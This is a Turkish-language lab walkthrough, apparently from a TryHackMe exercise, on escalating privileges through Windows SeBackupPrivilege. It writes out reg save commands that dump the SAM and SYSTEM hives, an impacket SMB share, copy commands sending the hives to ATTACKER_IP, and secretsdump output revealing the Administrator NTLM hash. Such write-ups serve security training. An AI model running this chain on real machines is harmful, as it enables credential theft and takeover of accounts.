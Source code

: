 Bu yetkiler kullanıcıya birkaç yoldan yetki yükseltme imkanı sağlar. Bunlardan bir tanesi sistemdeki SAM ve SYSTEM registry hive'larını kopyalamaktır.

Cmd'yi açıp "Run as administrator" dedikten sonra açılan komut satırına:

```
C:\> whoami /priv 

PRIVILEGES INFORMATION 
---------------------- 
Privilege Name                Description                    State 
============================= ============================== ======== SeBackupPrivilege             Back up files and directories  Disabled 
SeRestorePrivilege            Restore files and directories  Disabled 
SeShutdownPrivilege           Shut down the system           Disabled 
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
> Not: Disable olduğuna bakma, varsa o yetkiye sahipsin (?)

SAM ve SYSTEM hash'lerini yedeklemek için aşağıdaki komutları kullanabilirsin


```
reg save hklm\system C:\Users\THMBackup\system.hive 
```
```
The operation completed successfully. 
```
```
reg save hklm\sam C:\Users\THMBackup\sam.hive 
```
```
The operation completed successfully.
```

bu dosyaları kendi bilgisayarımıza atmak için impacket'in sağladığı smbserver.py'ı kullanabiliriz.

```shell-session
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Hedef makineden dosyaları kendi bilgisayarımızdaki smbserver'a göndeririz

```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\ 
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Hash'leri almak için
```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
```
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash) Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
